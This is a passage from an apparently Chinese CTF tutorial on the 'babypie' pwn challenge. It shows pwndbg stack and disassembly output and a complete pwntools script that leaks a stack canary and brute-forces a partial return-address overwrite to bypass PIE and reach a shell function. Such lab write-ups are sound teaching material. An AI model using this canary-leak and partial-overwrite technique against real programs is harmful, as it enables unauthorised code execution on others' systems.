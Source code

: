 ```asm
 
   0x55dc43694a23    mov    eax, 0
   0x55dc43694a28    mov    rcx, qword ptr [rbp - 8]
   0x55dc43694a2c    xor    rcx, qword ptr fs:[0x28]
   0x55dc43694a35    je     0x55dc43694a3c
 
   0x55dc43694a37    call   0x55dc436947c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rax rsi rsp  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│              0x7fff9aa3af48 ◂— 0xbfe0cfbabccd2861
06:0030│ rbp          0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
07:0038│              0x7fff9aa3af58 —▸ 0x55dc43694a6a ◂— mov    eax, 0
pwndbg> x/10i (0x0A3E+0x55dc43694000) 
   0x55dc43694a3e:	push   rbp
   0x55dc43694a3f:	mov    rbp,rsp
   0x55dc43694a42:	lea    rdi,[rip+0xd7]        # 0x55dc43694b20
   0x55dc43694a49:	call   0x55dc436947d0
   0x55dc43694a4e:	nop
   0x55dc43694a4f:	pop    rbp
   0x55dc43694a50:	ret    
   0x55dc43694a51:	push   rbp
   0x55dc43694a52:	mov    rbp,rsp
   0x55dc43694a55:	sub    rsp,0x10
```
可以发现, 此时的返回地址与 get shell 函数的地址只有低位的 8 bit 不同, 如果覆写低 8 bit 为 `0x?A3E`, 就有一定的几率 get shell

最终的脚本如下:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
#  context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

while True:
    try:
        io = process("./babypie", timeout = 1)

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        io.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + io.recvn(7)
        success(canary.encode('hex'))

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')

        io.interactive()
    except Exception as e:
        io.close()
        print e
```
需要注意的是, 这种技巧不止在栈上有效, 在堆上也是一种有效的绕过地址随机化的手段
